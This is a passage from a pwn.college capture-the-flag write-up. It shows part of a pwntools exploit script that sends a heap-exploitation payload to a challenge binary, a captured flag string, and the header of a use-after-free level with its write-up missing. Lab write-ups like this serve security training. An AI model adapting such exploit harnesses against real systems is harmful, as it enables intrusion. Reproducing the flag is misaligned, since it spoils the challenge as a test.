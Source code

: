 ```python

    if arg1 is not None:
        target.sendlineafter(b": ", arg1)

    if arg2 is not None:
        target.sendlineafter(b": ", arg2)


def attack(target, payload):
    try:
        for cmd, arg1, arg2 in payload:
            execute_cmd(target, cmd, arg1, arg2)

        response = target.recvall(timeout=0.1)

        if b"pwn.college{" in response:
            return True
    except Exception as e:
        log.exception(f"An error occurred while performing attack: {e}")


def main():
    target = launch()
    payload = construct_payload()

    if attack(target, payload):
        exit()


if __name__ == "__main__":
    main()
```

## Flag

Flag: `pwn.college{wvvL-j9QzjeoJrOsQS4Vval7exq.0VN3MDL5cTNxgzW}`

# Level 3.1

## Information

- Category: Pwn

## Description

> Create and exploit a use-after-free vulnerability to get the flag when multiple allocations occur.

## Write-up
